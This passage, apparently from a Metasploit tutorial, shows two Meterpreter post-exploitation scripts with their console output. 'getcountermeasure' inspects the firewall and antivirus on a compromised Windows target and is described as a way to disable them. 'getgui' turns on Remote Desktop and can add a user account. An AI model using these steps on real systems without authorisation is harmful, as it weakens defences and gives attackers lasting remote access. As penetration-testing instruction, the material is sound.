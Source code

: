 ## getcountermeasure

The `getcountermeasure` script allows you to see the security information of the target system. It helps you to disable Antivirus or Firewall.

```bash
 meterpreter > run getcountermeasure > Running Getcountermeasure on the target...
 > Checking for contrameasures...
 > Getting Windows Built in Firewall configuration...
 >
 > Domain profile configuration:
 > ----------------------------------------------------------------------------------
 > Operational mode = Disabled
 > Exception mode = Enable
 >
 > Standard profile configuration:
 > ----------------------------------------------------------------------------------
 > Operational mode = Disabled
 > Exception mode = Enable
 >
 > Local Area Connection 6 firewall configuration:
 > ----------------------------------------------------------------------------------
 > Operational mode = Disabled
 >
 > Checking DEP Support Policy...
```

## getgui

The `getgui` script enables you to turn on the RDP feature if it is disabled on the target computer.

```bash
 meterpreter > run getgui

[!] Meterpreter scripts are deprecated. Try post/windows/manage/enable_rdp.
[!] Example: run post/windows/manage/enable_rdp OPTION=value [...]
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u -p
Or: getgui -e

OPTIONS:

 -e Enable RDP only.
 -f Forward RDP Connection.
 -h Help menu.
 -p The Password of the user to add.
 -u The Username of the user to add. meterpreter > run getgui -e > Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
 > Carlos Perez carlos_perez@darkoperator.com
 > Enabling Remote Desktop
 > RDP is already enabled
 > Setting Terminal Services service startup mode
 > Terminal Services service is already set to auto
 > Opening port in local firewall if necessary
```
